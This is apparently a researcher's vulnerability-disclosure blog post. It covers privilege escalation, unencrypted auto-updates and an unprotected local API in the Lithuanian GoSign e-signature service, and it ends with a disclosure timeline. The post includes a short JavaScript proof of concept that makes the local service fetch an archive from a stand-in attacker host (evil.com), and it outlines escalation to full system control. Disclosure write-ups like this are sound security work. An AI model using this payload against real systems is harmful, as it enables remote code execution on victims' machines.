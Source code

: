 ```yaml
---
layout:     post
title:      "Registrų centras GoSign app vulnerabilities"
date:       2020-12-30 08:00:00
categories: HackAndTell
cover:      gosign_js.png
permalink:  /en/blog/registru-centras-gosign-vulnerabilities
---
```

After reading [an article](https://sec-consult.com/blog/detail/deanonymization-of-lithuanian-e-signature-users/) about a remediated information disclosure vulnerability in [GoSign](https://www.elektroninis.lt/paruosti-kompiuteri/nid-1287) - an e-signature desktop application by the State Enterprise Centre of Registers of Lithuania (Registrų centras), I became curious if it is not vulnerable to the other attack - DNS rebinding. In this blog post I'll review what I've found and what was fixed.

[GoSign](https://www.elektroninis.lt/bylos/elektroninis_lt/Diegliai/GoSignCore.msi) installs two Windows services: GoSign and GoSignMonitor (installed by default) and GoSignUI tray application (optional feature, not installed by default). Both services start on bootup and run with highest privileges possible - LocalSystem. It doesn't matter if the user has the identity card inserted or not.

![Services](gosign_sc.png)

However, the GoSign installer erroneously grants all local users full permissions to `c:\Program Files (x86)\RCSC\GoSign` folder:

![Gosign folder permissions](gosign_acl.png)

This allows regular users to modify the `GoSign.exe` and `GoSignMonitor.exe` (or any dll they load). Since the executables files run as LocalSystem it allows for Local Elevation of Privileges (EoP). Even so, the issue may be dismissed by private users, in government institutions, where computers are usually managed by technicians and regular users have restricted permissions, this is a valuable vulnerability for EoP by malicious programs.

Instead of fixing the installer to set the correct permissions to the root folder it was attempted to fix the issue in the version 3.3.4.0 by making GoSign service to verify and fix the permissions at runtime:

![Gosign runtime ACL fix](gosign_acl_fix.png)

Firstly, it doesn't work at all, because GoSign attempts to remove an inherited permission. Also it says a lot about internal development and testing processes. Secondly, attempting to make such privileged operations at runtime doesn't make it easier to change the existing GoSign architecture to stop running its services as LocalSystem. All in all, the EoP is still not fixed.

GoSignMonitor is a helper service that calls [http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/Version.txt](http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/Version.txt) and if a new version is available the service downloads [http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/GoSignCore.zip](http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/GoSignCore.zip) and extracts the zip into the installation directory. Yes, over unencrypted connection as LocalSystem. And it does it every 10 minutes. While less likely in case of an office user, in a private user case it opens the computer to a Remote Code Execution (RCE) for an attacker capable of intercepting the unencrypted traffic like in public WIFI network. The GoSign service is stopped before the zip extraction and restarted afterwards. Since the attacker-controlled executable is started as LocalSystem it means a complete computer takeover.

It was attempted to address the issue. The newer version of GoSignMonitor checks for updates and downloads them over HTTPS. Still, because of a mistake the automatic update process extracts the new version of the executable into the wrong folder: `C:\Program Files (x86)\RCSC\GoSign\GoSignMonitor\GoSignMonitor\GoSignMonitor.exe`. This way the existing users of GoSign are left vulnerable and need to manually uninstall the old version and install the version 3.3.4.0 themselves.

Overall, the automatic update architecture of GoSign is overengineered and convoluted. Each service kills and updates the other one. Instead of downloading and starting the new version of GoSign installer they download specific zip files that contain a selected set of executable files (i.e. without all .NET Core framework dlls they depend on) and overwrite the old files with the extracted ones. The failure to use the standard installer for this task leads to creation of GoSignUI folder with some files in it even if the feature wasn't installed to begin with. Also the fact the update is done silently without an acknowledgment means that by breaking into `downloads.registrucentras.lt` ten minutes later attackers could effectively compromise all computers with GoSign installed.

GoSign is the other installed service that runs a local web server on TCP ports 8000 and 60000. The server exposes the following REST API:

```
GET  /nexu-info
POST /rest/certificates
GET  /rest/certificates
POST /rest/sign
POST /rest/loadApp
GET  /diagnostics
POST /certs
GET  /certs
POST /multisign
POST /ping
GET  /rest/ping
```

Before version 3.2.2.0 a malicious JavaScript on any web page could call the local server and read its response. In v3.2.2.0 to mitigate the issue the following Cross-Origin Resource Sharing (CORS) list is hardcoded into the service:

```
https://ws.gosign.lt
https://wstest.gosign.lt
https://www.elektroninis.lt
https://test.elektroninis.lt
https://dev.elektroninis.lt
https://mati.registrucentras.lt
https://apptest4.kada.lt
https://appdevel4.kada.lan
```

The common misconception about CORS is that it allows requests to the server only from the selected list. What it really does, it instructs the browser to allow a web page from a selected origin to _**read**_ the server response. Any web page is still able to issue a [simple request](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#Simple_requests) to the web server. The CORS list fixed the issue where malicious pages could read personal information from the inserted identity card. Still, in v3.2.2.0 it was possible to blindly call any of the API.

The `/rest/loadApp` API commands GoSignUI to automatically download a file from the specified `url`, extract it if it is an archive and open in AutoDesk TrueView 2018 or AutoDesk DesignReview 2018 viewer. Proof of Concept:

```html
<script>
  fetch("https://localhost:8000/rest/loadApp", {
    method: 'POST',
    body: 'url=https://evil.com/evil.zip'
  })
</script>
```

An attacker could:

* Force GoSign users to download a [Zip Bomb](https://en.wikipedia.org/wiki/Zip_bomb).  
* Achieve RCE by using a specially crafted DWG or DWF file. It is as simple to exploit one of the [known vulnerabilities in AutoDesk DesignReview 2018](https://www.cvedetails.com/vulnerability-list/vendor_id-3855/product_id-15106/year-2019/opec-1/Autodesk-Design-Review.html) as zipping malicious DWF and DLL files into the same archive. Since GoSignUI runs as non-privileged process that should reduce the RCE impact. Nevertheless, because of the improper installation folder permissions it is easy to escalate to LocalSystem.  

My recommendation was to implement a `Origin` header check on the server side, but in the version 3.3.4.0 `/rest/loadApp` verifies `Referer` header instead. This is not ideal since the header may be not present, but it should be OK as long as the server rejects requests without `Referer`. Both `Referer` and `Origin` are [forbidden headers](https://developer.cdn.mozilla.net/en-US/docs/Glossary/Forbidden_header_name), i.e. are guaranteed to be not spoofable by malicious sites. However, the check wasn't implemented as .NET Core Middleware, so it is still possible for any web site to call the other API endpoints.

### Timeline

2020.09.25-29 - Contacted [info@gosign.lt](mailto:info@gosign.lt), [info@elektroninis.lt](mailto:info@elektroninis.lt), [info@registrucentras.lt](mailto:info@registrucentras.lt) asking for the security contract.  
2020.10.01 - A report was sent to [pagalba@elektroninis.lt](mailto:pagalba@elektroninis.lt).  
2020.10.01 - The report was acknowledged.  
2020.12.21 - Received an email that v3.3.4.0 with the fixes was released.  
2020.12.28 - Vendor was notified about the not fixed issues.  
2020.12.30 - Disclosure deadline reached.  
